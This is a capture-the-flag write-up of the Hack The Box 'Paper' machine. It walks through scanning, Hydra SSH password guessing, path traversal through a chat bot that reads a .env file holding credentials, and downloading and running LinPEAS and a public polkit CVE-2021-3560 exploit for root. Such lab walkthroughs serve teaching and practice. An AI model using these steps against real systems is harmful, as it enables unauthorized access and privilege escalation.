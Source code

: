 # Paper
### A demonstration walkthrough of a pen test process using HTB's Paper with some normal dead ends as an example.  

*Note* /etc/hosts appended with "10.10.11.143 paper.htb"
Basic scan of all ports 
```
nmap -p- paper.htb
```

The preferred way to scan.  A fast scan of all ports then a deeper scan for services on the found ports  
```
ports=$(nmap -p- --min-rate=1000 -T4 paper.htb | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports paper.htb
nikto -h paper.htb
```
Interesting Results (NMAP):  
- Running OpenSSH 8.0 and Apache httpd 2.4.37 on CentOS  
Interesting Results (NIKTO):   
- OSVDB-877: TRACE and missing common protection headers.  Set this aside unless we user traffic to escalate.
- Uncommon header 'x-backend-server' found, with contents: office.paper
- Retrieved x-powered-by header: PHP/7.2.24

**DEAD END:** Browsing site shows only the default install page, nothing interesting in source, HTTPS: fails cert validation.  
**DEAD END:**  Using Hydra to guess common username/passwords for SSH.  Trying a small set of default username and password combinations work more often in real world vs. simulations.  
```
echo 'root\nuser\nadmin\nadministrator\ndevelopment\ntest\napache\noffice\npaper' > paper.htb.usernames
echo 'password\nPassword\nPassw0rd\nPassw0rd!' > paper.htb.passwords
hydra -L paper.htb.usernames -P paper.htb.passwords -e nsr ssh://paper.htb
```
**DEAD END:** Using dirbuster results were only standard Apache files

Added backend server to /etc/hosts:  "10.10.11.143 office.paper"
```
nikto -h office.paper
```
Interesting results:
- Link to WordPress API docs: https://api.w.org
- 'x-redirect-by' found, with contents: WordPress

Browsed "office.paper" added a few more possible username to hyrda files.  Following chat noticed command about unsafe draft content.

On Parrot
```
docker run -it --rm wpscanteam/wpscan --url http://office.paper
```
On KALI
```
wpscan --url http://office.paper
```
WordPress version 5.2.3 identified (Insecure, released on 2019-09-05).

On Parrot searchsploit needs to be installed
```
git clone https://gitlab.com/exploit-database/exploitdb.git /usr/share/exploitdb
ln -sf /usr/share/exploitdb/searchsploit /usr/local/bin/searchsploit
```

```
searchsploit wordpress 5.2.3
cat /usr/share/exploitdb/exploits/multiple/webapps/47690.md
```

Browsed to http://office.paper/?static=1  
Draft leads to a chat server and secret registration page: http://chat.office.paper/register/8qozr226AhkCHZdyY  

Added "10.10.11.143 chat.office.paper" to /etc/hosts
**DEAD END:** Nikto and dirbuster on discovered hosts didn't yield any new results

I read the blog posts. Fun "The Office" references lots of names to add to Hydra lists.
Dwight setup a bot, seems like he is the admin.

The bot will take commands.
**DEAD END** Trying command injection, nothing I tried worked.  Seems I'm limited to 'list' and 'file' commands
**Comment"" First pass on enum drew a blank beyond the fact that Dwight owns the bot.

#### Rabbit Hole
Should Dwight + "The Office" + password be the way?
Outtakes:   
[YouTube](https://www.youtube.com/watch?v=yXPrp0AAvZ4)  
[YouTube](https://www.youtube.com/watch?v=dtGCC-DleX0)  
[YouTube](https://www.youtube.com/watch?v=HkmJFjbsIgM)  
[YouTube](https://www.youtube.com/watch?v=8zfNfilNOIE)  
[YouTube](https://www.youtube.com/watch?v=F1wodhJ-qFo)  

Geez, lots of ideas, lots of real bad password practices. Hydra failed, zero traction.

#### Better enum 
Googled RocketChat configuration led to using environment variables. 
A second pass of enum landed on "file ../../dwight/hubot/.env"  
export ROCKETCHAT_USER=recyclops
export ROCKETCHAT_PASSWORD=Queenofblad3s!23  
Added to hydra files

```
hydra -L paper.htb.usernames -P paper.htb.passwords -e nsr ssh://paper.htb
```
[DATA] attacking ssh://paper.htb:22/
[22][ssh] host: paper.htb   login: dwight   password: Queenofblad3s!23
```
ssh dwight@paper.htb
```

### USER SUCCESS!

# Try LinPEAS to find escalation
[LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
```
# From github
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
scp linpeas.sh dwight@paper.htb:linpeas.sh
```

Running linpeas.sh shows vulnerables to  CVE-2021-3560

```
curl https://raw.githubusercontent.com/Almorabea/Polkit-exploit/main/CVE-2021-3560.py > exploit.py
scp exploit.py dwight@paper.htb:.
ssh dwight@paper.htb
```
```
python3 exploit.py
```

### ROOT SUCCESS!
